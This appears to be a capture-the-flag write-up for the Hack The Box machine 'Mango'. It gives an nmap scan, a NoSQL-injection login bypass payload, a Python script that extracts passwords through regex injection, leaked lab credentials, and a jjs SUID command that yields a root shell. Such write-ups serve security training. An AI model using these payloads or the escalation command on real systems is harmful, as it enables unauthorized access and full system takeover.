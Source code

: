 <center><h1>Mango</h1></center>
<br>
<center><h2>Summary</h2></center>
- We see the ip does not match the name on the certificate.
- Adding ```staging-orders.mango.htb``` to our /etc/hosts file will reveal a login page
- With the boxes name being Mango, after trial and error I came to the conclusion that the box was running MongoDB and that I would need to exploit that
- Using an authentication bypass exploit we can then write a python script to get some credentials
- Using those credentials to SSH in, I run some enumeration scripts and immediately see some unusual SUID binaries which I use to can a root shell
<br><br>
First start with an nmap scan

```
Nmap scan report for 10.10.10.162
Host is up, received user-set (0.059s latency).
Scanned at 2019-10-26 15:04:48 EDT for 17s
Not shown: 997 closed ports
Reason: 997 resets
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXYCdNRHET98F1ZTM+H8yrD9KXeRjvIk9e78JkHdzcqCq6zcvYIqEZReb3FSCChJ9mxK6E6vu5xBY7R6Gi0V31dx0koyaieEMd67PU+9UcjaAujbDS3UgYzySN+c5GV/ssmA6wWHu4zz+k+qztqdYFPh0/TgrC/wNPWHOKdpivgoyk3+F/retyGdKUNGjypXrw6v1faHiLOIO+zNHorxB304XmSLEFswiOS8UsjplIbud2KhWPEkY4s4FyjlpfpVdgPljbjijm7kcPNgpTXLXE51oNE3Q5w7ufO5ulo3Pqm0x+4d+SEpCE4g0+Yb020zK+JlKsp2tFJyLqTLan1buN
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqSZ4iBMzBrw2lEFKYlwO2qmw0WPf76ZhnvWGK+LJcHxvNa4OQ/hGuBWCjVlTcMbn1Te7D8jGwPgbcVpuaEld8=
|   256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB1sFdLYacK+1f4J+i+NCAhG+bj8xzzydNhqA1Ndo/xt
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/emailAddress=admin@mango.htb/organizationalUnitName=None/localityName=None
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
| SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
| -----BEGIN CERTIFICATE-----
| MIIEAjCCAuqgAwIBAgIJAK5QiSmoBvEyMA0GCSqGSIb3DQEBCwUAMIGVMQswCQYD
| VQQGEwJJTjENMAsGA1UECAwETm9uZTENMAsGA1UEBwwETm9uZTEXMBUGA1UECgwO
| TWFuZ28gUHJ2IEx0ZC4xDTALBgNVBAsMBE5vbmUxIDAeBgNVBAMMF3N0YWdpbmct
| b3JkZXIubWFuZ28uaHRiMR4wHAYJKoZIhvcNAQkBFg9hZG1pbkBtYW5nby5odGIw
| HhcNMTkwOTI3MTQyMTE5WhcNMjAwOTI2MTQyMTE5WjCBlTELMAkGA1UEBhMCSU4x
| DTALBgNVBAgMBE5vbmUxDTALBgNVBAcMBE5vbmUxFzAVBgNVBAoMDk1hbmdvIFBy
| diBMdGQuMQ0wCwYDVQQLDAROb25lMSAwHgYDVQQDDBdzdGFnaW5nLW9yZGVyLm1h
| bmdvLmh0YjEeMBwGCSqGSIb3DQEJARYPYWRtaW5AbWFuZ28uaHRiMIIBIjANBgkq
| hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5fimSfgq3xsdUkZ6dcbqGPDmCAJJBOK2
| f5a25At3Ht5r1SjiIuvovDSmMHjVmlbF6qX7C6f7Um+1Vtv/BinZfpuMEesyDH0V
| G/4X5r6o1GMfrvjvAXQ2cuVEIxHGH17JM6gKKEppnguFwVMhC4/KUIjuaBXX9udA
| 9eaFJeiYEpdfSUVysoxQDdiTJhwyUIPnsFrf021nVOI1/TJkHAgLzxl1vxrMnwrL
| 2fLygDt1IQN8UhGF/2UTk3lVfEse2f2kvv6GbmjxBGfWCNA/Aj810OEGVMiS5SLr
| arIXCGVl953QCD9vi+tHB/c+ICaTtHd0Ziu/gGbdKdCItND1r9kOEQIDAQABo1Mw
| UTAdBgNVHQ4EFgQUha2bBOZXo4EyfovW+pvFLGVWBREwHwYDVR0jBBgwFoAUha2b
| BOZXo4EyfovW+pvFLGVWBREwDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsF
| AAOCAQEAmyhYweHz0az0j6UyTYlUAUKY7o/wBHE55UcekmWi0XVdIseUxBGZasL9
| HJki3dQ0mOEW4Ej28StNiDKPvWJhTDLA1ZjUOaW2Jg20uDcIiJ98XbdBvSgjR6FJ
| JqtPYnhx7oOigKsBGYXXYAxoiCFarcyPyB7konNuXUqlf7iz2oLl/FsvJEl+YMgZ
| YtrgOLbEO6/Lot/yX9JBeG1z8moJ0g+8ouCbUYI1Xcxipp0Cp2sK1nrfHEPaSjBB
| Os2YQBdvVXJau7pt9zJmPVMhrLesf+bW5CN0WpC/AE1M1j6AfkX64jKpIMS6KAUP
| /UKaUcFaDwjlaDEvbXPdwpmk4vVWqg==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 26 15:05:05 2019 -- 1 IP address (1 host up) scanned in 17.81 seconds
```
Doing some quick enumeration on port 80 will reveal there is nothing there. Our nmap scan reveals a commonName ```stagin-order.mango.htb``` so after adding that to my ```/etc/hosts``` file I am greated with a login page.

<center><img src="/htb/mango/login.png"></center>
<br>
After wasting a decent amount of time trying to guess the login and use gobuster to find some hidden directories that didn't exist, I started to think of other possibilities. First I spent a lot of time searching for anything related to web development with the name Mango and got nothing. Then I decided to try one of the more popular choices Mongo since it sounded similar and I was out of ideas. Turns out, it was a good idea. Using *[this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)* I was able to use an authentication bypass exploit using burp.
<br>
I started up burp and intercepted the login request. Then I replaced what was in the data field with ```username[$ne]=toto&password[$ne]=toto```. The request should look something like this.

<center><img src="/htb/mango/request.png"></center>
<br>
Now I forwarded that request and was greeted with a new page ```http://http://staging-order.mango.htb/home.php```.

<center><img src="/htb/mango/plantation.png"></center>
<br>
Now that I am authenticated with the system, I need some way to get some valid credentials so I can gain access to the system. Doing some research there is a way to extract passwords using a python script if you have the correct users. First things first was I needed to write the python script. In the end I cam up with something like this. Its not the prettiest but it gets the job done. Once you see it start print multiple '$' then then password is everything before it.
```
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                
                post_data = {'username':username, 'password[$regex]':"^" + payload, 'login':'login'}
                r = requests.post(url, data=post_data, allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)
                        
                        exit(0)
                    break
```
For the users I pretty much just guessed ```admin``` and ```mango```. Doing that gave me these credentials
```
user:mango pass:h3mXK8RhU~f{]f5H
user:admin pass:t9KcS3>!0B#2
```
Using this I was able to SSH in as the user mango and then use the command ```su admin``` to change to the admin user. From there I was able to grab the user flag.
```
$ cat user.txt
79bf31c6c6eb38***************
```
Next step was to run a linux enum script. I chose the linux smart enumeration script. Running that instantly reveals something interesting
```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/run-mailcap
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Some unusual SUID binaries. Taking a look at GTFOBins shows me that ```jjs``` is vulnerable to SUID privilege escalation So thats where I am going to focus my attention. The default command they tell me to run doesnt work. It just hangs and does allow me to execute anything so I had to modify it a little bit to get it to work.
```
Default Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs

Working Command:
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Executing the command you see I get a root shell. The only drawback is that I am unable to see anything that I type but the commands are executed
```
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc $@|bash${IFS}-p _ echo bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
bash-4.4#
```
So if I type ```cat /root/root.txt``` then it will output the root flag
```
bash-4.4# 8a8ef79a7a2fbb0**************
```
<br><br><br><br>

